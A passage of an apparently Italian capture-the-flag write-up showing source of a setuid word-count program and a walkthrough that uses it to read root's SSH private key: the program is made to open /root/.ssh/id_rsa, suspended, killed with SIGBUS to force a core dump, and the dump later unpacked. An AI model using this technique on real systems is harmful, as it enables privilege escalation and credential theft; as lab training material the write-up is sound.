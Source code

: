 ```bash
    // drop privs to limit file write
    setuid(getuid());
    // Enable coredump generation
    prctl(PR_SET_DUMPABLE, 1);
    printf("Save results a file? [y/N]: ");
    res = getchar();
    if (res == 121 || res == 89) {
        printf("Path: ");
        scanf("%99s", path);
        FILE *fp = fopen(path, "a");
        if (fp != NULL) {
            fputs(summary, fp);
            fclose(fp);
        } else {
            printf("Could not open %s for writing\n", path);
        }
    }

    return 0;
}

..<snip>..

```

vediamo una chiamata a coredump.
Coredump è un strumento che fa un backup dei dati creati se si verifica un exception durante l'esecuzione del codice. 

quindi l'idea è quello di andare a leggere id_rsa di root  attraverso count ed interrompere il codice cosi da far creare a core dump un backup che andremmo poi a leggere con `apport-unpack`

```bash
dasith@secret:/opt$ ./count
Enter source file/directory name: /root/.ssh/id_rsa

Total characters = 2602
Total words      = 45
Total lines      = 39
Save results a file? [y/N]: ^Z
[1]+  Stopped                 ./count
dasith@secret:/opt$ ps
    PID TTY          TIME CMD
   1669 pts/0    00:00:00 bash
   1759 pts/0    00:00:00 count
   1760 pts/0    00:00:00 ps
dasith@secret:/opt$ kill -BUS 1759
dasith@secret:/opt$ fg
./count
Bus error (core dumped)
dasith@secret:/opt$
```
